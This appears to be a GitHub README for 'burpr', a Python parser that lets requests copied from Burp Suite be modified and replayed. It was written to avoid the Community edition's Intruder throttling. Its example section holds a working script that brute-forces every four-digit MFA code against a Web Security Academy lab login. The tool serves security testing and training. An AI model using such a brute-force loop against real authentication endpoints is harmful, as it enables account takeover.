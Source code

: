 # What is it
A Burp Suite request parser, used for aid in assessing application security functionality.

# Why I wrote it
To bypass the throttling 'Burp Suite Community' does to the intruder.

# Usage
Use burpr.py module to parse the Burp Suite copied request. Then use the created object to extract headers and body.

Supports parsing requests as strings and as .txt files.

```python
import burpr

# Load from string
req = burpr.parse_string(req_string)

# Load from file
req = burpr.parse_file(req_file_path)

# clone the request
req_clone = burpr.clone(req)

# change protocol to http1.1
req_clone.set_protocol(burpr.protocols.HTTP1_1)

# change transport to http
req_clone.set_transport(burpr.transports.HTTP)

# modify the header
req_clone.set_header("Cookie", "session=modified_session_cookie")

# modify the parameter
req_clone.set_parameter("post-param", "AAABBBCCC")

# remove parameter
req_clone.remove_parameter("post-param")

# remove header
req_clone.remove_header("Cookie")

# adjust Content-Length for parameter change
burpr.prepare(req_clone)

client = httpx.Client(http2=True)
res = client.post(req.url, headers=req.headers, data=req.body)
```

# Examples
## Brute force broken MFA
```python
import burpr
import httpx
import itertools

burp_request = r"""POST /login2 HTTP/2
Host: xxxx.web-security-academy.net
Cookie: verify=carlos; session=xxxx
Content-Length: 13
Cache-Control: max-age=0
Sec-Ch-Ua: 
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: ""
Upgrade-Insecure-Requests: 1
Origin: https://xxxx.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.111 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://xxxx.web-security-academy.net/login2
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

mfa-code=4321
"""

def generate_pin_numbers():
  return [''.join(list([str(digit) for digit in permutation])) 
          for permutation in itertools.product(list(range(0, 10)), repeat=4)]

def brute_force_broken_mfa():
  # Parse request from string
  req = burpr.parse_string(burp_request)

  # Create http client and check the protocol used
  client = httpx.Client(http2=req.is_http2)

  for pin in generate_pin_numbers():
    # Modify the mfa-code parameter
    req.set_parameter("mfa-code", pin)

    # Send the request
    res = client.post(req.url, headers=req.headers, data=req.body)

    print(res.status_code, pin)
    
    if (res.status_code != 200):
      break

brute_force_broken_mfa()
```
